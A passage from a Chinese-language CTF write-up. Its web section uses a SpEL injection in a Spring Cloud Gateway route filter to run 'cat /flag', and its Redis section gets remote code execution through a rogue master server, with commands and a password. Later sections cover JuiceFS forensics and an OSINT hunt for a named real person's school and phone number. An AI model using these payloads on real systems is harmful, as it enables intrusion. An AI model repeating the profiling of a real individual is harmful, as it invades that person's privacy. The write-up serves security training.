          uri: lb://ruoyi-gen
          predicates:
            - Path=/code/**
          filters:
            - StripPrefix=1
        # 定时任务
        - id: ruoyi-job
          uri: lb://ruoyi-job
          predicates:
            - Path=/schedule/**
          filters:
            - StripPrefix=1
        # 系统模块
        - id: ruoyi-system
          uri: lb://ruoyi-system
          predicates:
            - Path=/system/**
          filters:
            - StripPrefix=1
            - name: AddResponseHeader
              args:
                name: return
                value: "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{'cat','/flag'}).getInputStream())).replaceAll('\n',';').replaceAll('\r',',')}"
        # 文件服务
        - id: ruoyi-file
          uri: lb://ruoyi-file
          predicates:
            - Path=/file/**
          filters:
            - StripPrefix=1

# 安全配置
security:
  # 验证码
  captcha:
    enabled: true
    type: math
  # 防止XSS攻击
  xss:
    enabled: true
    excludeUrls:
      - /system/notice
  # 不校验白名单
  ignore:
    whites:
      - /auth/logout
      - /auth/login
      - /auth/register
      - /*/v2/api-docs
      - /csrf
```

随后通过访问/system/**路径相关的内容，可以发现相应的数据包中存在相关的命令执行结果



## pen4ruo1-5

考察 redis 主从复制漏洞的利用；通过 nacos 中获取到的 redis 认证密码，通过 `info` 获得 redis 的系统版本号为 `5.0.14`，考虑存在主从复制漏洞；

参考链接：[https://github.com/Testzero-wz/Awsome-Redis-Rogue-Server](https://github.com/Testzero-wz/Awsome-Redis-Rogue-Server)



使用提供的链接的利用脚本进行 rce 即可；除此之外还有一种手动攻击的方式；

```
proxychains4 python3 redis_rogue_server.py -rhost=172.31.4.4 -passwd='susctf@2025!@#(redis)' -lhost=1.94.186.217 -lport=15000
```



通过代理和认证密码连接 redis；在服务端通过以下命令开启服务，默认监听 15000 端口

```
python3 redis_rogue_server.py -v
```

```
config set dbfilename module.so
slaveof 1.94.***.*** 15000
module load ./module.so
RedisRuntime.exec 'id'   
RedisRuntime.exec 'ls /'
RedisRuntime.exec 'cat /flag'
```



# Forensics

## juicyfs

背景阅读：[JuiceFS 与如何恢复一个不一致的元数据备份](https://idawnlight.com/archives/juicefs-rescue-from-meta-dump/)

本题原计划复现一下如上的恢复备份导致的不一致，然后发现在 SQLite 上好像不太行，并且也不好藏 flag，于是还是选择了一个比较传统的方式，创建一个隐藏的 inode，把这题本质上变成了只要求了解一些 JuiceFS 的基础知识就能做。为了防止直接从 `jfs_blob` 里把获取 flag 的 ELF 拼出来，还选择了 lz4 压缩和乱序写入，结果好像是想太多了，最后只有一解倒不如放点水了（

事实上，JuiceFS 对于这种 leaked inode [还有计划实现一个 gc](https://github.com/juicedata/juicefs/pull/5795)，不知道要是实现了会不会一个 fsck 或者 gc 直接把 flag 回收了（

总之，做这题大概只需要这么几步：

1. 尝试直接挂载题目提供的 SQLite DB，会得到 `check version: allowed minimum version: 11.45.14; please upgrade the client`。自然地，这个版本肯定不存在，那么就需要先用其他工具打开这个 DB 看一眼。
2. 注意到数据库中除了基本的各类表外，还有 `jfs_blob`。继续观察原始 `jfs_setting`：

```json
{
"Name": "juicyfs",
"UUID": "00000000-0000-0000-0000-000000000000",
"Storage": "sqlite3",
"Bucket": "/somepath",
"BlockSize": 1024,
"Compression": "lz4",
"EncryptAlgo": "aes256gcm-rsa",
"TrashDays": 0,
"MetaVersion": 1,
"MinClientVersion": "11.45.14",
"EnableACL": false
}
```

1. 很明显，我们只需要修改 Bucket 同样为当前这个 DB 的路径，然后把 MinClientVersion 随便改成一个比较低的版本，就能顺利挂上这个 JuiceFS 了。
2. 挂载上后可以随便翻翻，并没有真正的 flag，那么还是要回到数据库。注意到 `jfs_edge` 表中有以下两项比较特殊的 entry：



1. 分别为 will place flag 和 have placed flag，不难猜测 3324 就是真正 flag 的 inode。而 JuiceFS 使用 SQL 类元数据引擎时，其实仅根据 `jfs_edge` 决定目录树。因此，可以随便创建一个新的 entry 在根目录下（parent 1, inode 3324, type 1, name 随意）：



1. 直接执行 getflag 即可



# OSINT

## spy

来自某日无聊翻 Hackage 发现的函数式编程神人（

拿题目图片去 [https://images.google.com/](https://images.google.com/) 随便搜一下就会发现一个一个月前的 [r/WeirdWebsites 讨论](https://www.reddit.com/r/WeirdWebsites/comments/1n8iyes/spynet/)，评论区的 Mira, joven. Da me los pintos verde 也能印证题目描述；由此即可确定目标网站是 spy.net。


当然你如果直接打开似乎是无法访问的，这时候我们直接掏出 Internet Archive 开始考古。我们随便拖回一个比较早的时间：[https://web.archive.org/web/20030729002023/http://www.spy.net/](https://web.archive.org/web/20030729002023/http://www.spy.net/)

点击 [Information](https://web.archive.org/web/20030811071511/http://www.spy.net/about.spy) 看一看，告诉我们 spy.net 的成立时间是 October 5, 1995。那我们直接拖到最早的一份 archive：[https://web.archive.org/web/19970331181716/http://www.spy.net/about.spy](https://web.archive.org/web/19970331181716/http://www.spy.net/about.spy)

这里的介绍就很详尽了，如果你对计算机网络历史有兴趣的话应该会看得非常开心，当然也直接告诉我们站长是 [Neal Wise](https://web.archive.org/web/19970331181716/http://www.ualr.edu/~dnwise/) 和 [Dustin Sallings](https://web.archive.org/web/19970331181716/http://www.spy.net/~dustin/)。

Neal Wise 后来搬到了澳洲，于是有了 [spy.net.au](https://web.archive.org/web/20160109233458/http://spy.net.au/)；Dustin Sailings 则一直负责 [West SPY](https://web.archive.org/web/20020604030628/http://www.west.spy.net/)。根据之后能搜到的信息，[www.west.spy.net](http://www.west.spy.net) 一直是 spy.net 的主要门户，所以这里问的站长是 Dustin Sailings 的信息（当然如果你去搜 Neal Wise 的话会发现搜不到什么高中，所以也侧面说明要的不是他）。

我们直接用搜索引擎搜索关键词 dustin sailings spy net


第二三四五条都跟他有关，其中可以直接从 Facebook 找到他的高中 [Conway Senior High School](https://www.facebook.com/Conway-Senior-High-School-109882339034484/)；GitHub 邮箱 dustin@spy.netmailto:dustin@spy.net 也能印证他的身份。

关于电话，有很多师傅通过不同的网站找到了不少电话（所以不得不多次添加答案）；这里仅举一例可能的结果：

[https://www.officialusa.com/names/Dustin-Sallings/](https://www.officialusa.com/names/Dustin-Sallings/)

[这里](https://web.archive.org/web/20161204034039/http://bleu.west.spy.net/~dustin/resume.html)的简历 vcard 二维码也有一个电话，都是可以算作答案的；本质还是考察大家的信息收集能力。

如果你和我一样足够无聊的话，spy.net 还是有很多有意思的东西可以考古的：

比如 [2003 年的 slashdot 新闻](https://web.archive.org/web/20030819200037/http://www.west.spy.net/~dustin/news/doonews2.jsp?set=dustin)；[摩托罗拉 PageWriter 2000 传呼机铃声音乐合集（还挺好听的）](https://web.archive.org/web/20010523192640/http://bleu.west.spy.net/~dustin/music/)；[spy.net 开源邮件系统](https://web.archive.org/web/20050214194727/http://www.spy.net/~dustin/ml/)；[1999 年的 Eiffel 语言 PostgreSQL ORM](https://web.archive.org/web/20020725210754/http://www.west.spy.net/~dustin/eiffel/docs/pg.html)
